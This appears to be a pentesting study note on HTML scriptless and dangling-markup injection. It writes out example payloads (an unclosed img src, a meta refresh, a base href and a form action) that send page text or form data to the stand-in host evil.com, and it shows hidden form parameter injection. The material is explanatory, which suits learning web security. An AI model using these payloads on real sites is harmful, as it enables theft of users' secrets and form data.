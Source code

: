 # TOPIC
HTML Scriptless Attacks / Dangling Markup Attacks (Wrap)

# OVERVIEW
This is the final part of the HTML Scriptless attack vector series.

# ATTACKS
## STEALING CLEAR TEXTS
- The injection of img tag, is very interesting.
- On injection it would look like, "<img src=https://evil.com?"  ,THe injection of this would treat all the following code as the query parameter, and ends on seeing a '.
- If there are any secrets in between it gets exposed to the evil.com site.
- This is also possible with the meta tag, in case if <img> tags are blocked.
- "<meta http-equic="refresh" content="4; URL='http://evil.com/log.cgi?"

## STEALING FORM DATA
- The injection of <base href="https://evil.com">, would attach this prefix to all the paths like "/action.php", "/dashboard.php".
- We can also set a former form header : <form action="https://evil.com/log.cgi"> and this would override all other form headers if present.

## FORM PARAMETER INJECTION
- You can change the path of a form, and insert new values so an unexpected result may come.
- <form action="/editSettings.php">
 <input type='hidden' name='invite User' value='Eddard Stark'>    ----> INJECTED
 .
 .
 .
 .
 .
 <form action="/editSettings.php">     -----> Existing FORM ( ignored )
<input type="text" name="invite User" value="">
</form>


## OTHERS
 - Bypassing CSP with the User Interaction : https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup

# REFERENCES

a. https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
b. https://github.com/cure53/HTTPLeaks/blob/main/leak.html
c. https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup

